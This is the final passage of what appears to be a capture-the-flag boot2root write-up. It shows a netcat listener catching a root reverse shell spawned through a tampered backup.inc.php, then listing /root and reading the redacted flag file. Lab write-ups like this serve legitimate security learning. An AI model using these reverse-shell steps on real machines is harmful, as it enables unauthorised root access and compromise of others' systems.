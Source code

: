 Wait for `script.php` to run, triggering `backup.inc.php` to spawn the reverse shell.

```
$ nc -lnvp 7777               
listening on [any] 7777 ...
connect to [redacted] from (UNKNOWN) [10.10.29.131] 57000
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 02:08:01 up 52 min,  1 user,  load average: 0.00, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/1    redacted         02:01   36.00s  0.03s  0.03s -bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
#
```

Now you can capture the root flag:

```
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Feb 22 08:51 .
drwxr-xr-x 19 root root 4096 Jul 26  2022 ..
lrwxrwxrwx  1 root root    9 Jul 26  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb 22 08:16 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   33 Jul 26  2022 proof.txt
-rw-r--r--  1 root root   66 Feb 22 08:16 .selected_editor
drwx------  3 root root 4096 Feb 22 08:51 snap
drwx------  2 root root 4096 Jul 26  2022 .ssh
-rw-r--r--  1 root root  215 Feb 22 08:08 .wget-hsts
# cat proof.txt
<redacted>
```

With this last step, you have finished the boot2root challenge!
